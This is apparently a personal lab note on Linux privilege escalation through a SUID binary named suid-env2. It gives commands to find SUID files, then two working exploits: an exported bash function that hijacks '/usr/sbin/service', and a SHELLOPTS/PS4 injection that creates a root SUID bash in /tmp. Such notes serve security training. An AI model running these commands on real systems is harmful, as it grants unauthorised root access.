 ***Detection***
Target's [[Linux]] machine:

- In command prompt type: 
```
find / -type f -perm -04000 -ls 2>/dev/null
```
- From the output, make note of all the SUID binaries.
- In command prompt type:
```
strings /usr/local/bin/suid-env2
```
- From the output, notice the functions used by the binary.

***Exploitation Method #1***
Target's machine 

- In command prompt type:
```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```
- In command prompt type:
```
export -f /usr/sbin/service
```
- In command prompt type: 
```
/usr/local/bin/suid-env2
```

***Exploitation Method #2***
- In command prompt type:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```
